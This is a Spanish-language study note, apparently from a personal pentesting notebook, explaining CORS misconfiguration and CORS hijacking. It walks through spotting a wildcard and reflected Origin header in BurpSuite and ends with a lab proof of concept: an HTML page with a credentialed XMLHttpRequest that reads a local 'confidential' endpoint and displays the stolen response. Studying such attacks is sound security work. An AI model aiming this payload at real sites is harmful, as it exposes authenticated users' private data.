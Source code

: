 # Intercambio de recursos de origen cruzado (CORS)

Tags: #CORS #OWASP #Explotacion 

El **Intercambio de recursos de origen cruzado** (**CORS**) es un mecanismo que permite que un servidor web **restrinja** el **acceso a recursos** de **diferentes orígenes**, es decir, de diferentes dominios o protocolos. CORS se utiliza para proteger la privacidad y seguridad de los usuarios al evitar que otros sitios web accedan a información confidencial sin permiso.

Supongamos que tenemos una aplicación web en el dominio “**example.com**” que utiliza una API web en el dominio “**api.example.com**” para recuperar datos. Si la aplicación web está correctamente configurada para CORS, solo permitirá solicitudes de origen cruzado desde el dominio “**example.com**” a la API en el dominio “**api.example.com**“. Si se realiza una solicitud desde un dominio diferente, como “**attacker.com**“, la solicitud será bloqueada por el navegador web.

Sin embargo, si la aplicación web no está correctamente configurada para CORS, un atacante podría aprovecharse de esta debilidad para acceder a recursos y datos confidenciales. Por ejemplo, si la aplicación web no valida la autorización del usuario para acceder a los recursos, un atacante podría inyectar código malicioso en una página web para realizar solicitudes a la API de la aplicación en el dominio “**api.example.com**“.

El atacante podría utilizar herramientas automatizadas para probar diferentes valores de encabezados CORS y encontrar una configuración incorrecta que permita la solicitud desde otro dominio. Si el atacante tiene éxito, podría acceder a recursos y datos confidenciales que no deberían estar disponibles desde su sitio web. Por ejemplo, podría recuperar la información de inicio de sesión de los usuarios, modificar los datos de la aplicación, etc.

Para prevenir este tipo de ataque, es importante configurar adecuadamente CORS en la aplicación web y asegurarse de que solo se permitan solicitudes de origen cruzado desde dominios confiables.


## CORS Hijacking

Lo que hace CORS es hacer que dominios externos de paginas puedan realizar solicitudes para que puedan sustraer informacion de la pagina pero solo los que CORS decida.
Puedes definir en la politica de CORS que dominios terceros queremos que unicamente puedan realizar solicitudes.


Interceptaremos CORS con BurpSuite para ver su configuracion. 

![](Pasted%20image%2020230522150453.png)

Encontramos que esta mal configurado porque tiene un \*, esto nos indica que cualquier pagina puede hacer solicitud. 

Podemos colocar en BurpSuite una nueva cabecera que se llame origin para mirar el comportamiento del servidor y vemos que en la respuesta nos regresa el valor de la cabecera origin. 

![](Pasted%20image%2020230522151027.png)


Debemos de estar autenticados en la web que tiene el CORS.
![](Pasted%20image%2020230522151528.png)


Ahora nos vamos a crear un recurso malicioso por el puerto 80 de nuestro equipo llamado 'malicious.html' y lo compartiremos con python. 
```bash
❯ python3 -m http.server 80
```

```html
<Script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('GET', 'http://localhost:5000/confidential', true);
	req.withCredentials = true;
	req.send();

	function reqListener(){
			document.getElementById("stoleInfo").innerHTML = req.responseText;
	}
</Script>

<center><h1>Has sido hackeado y esta es la info que he recopilado:</h1></center>

<p id="stoleInfo"></p>
```

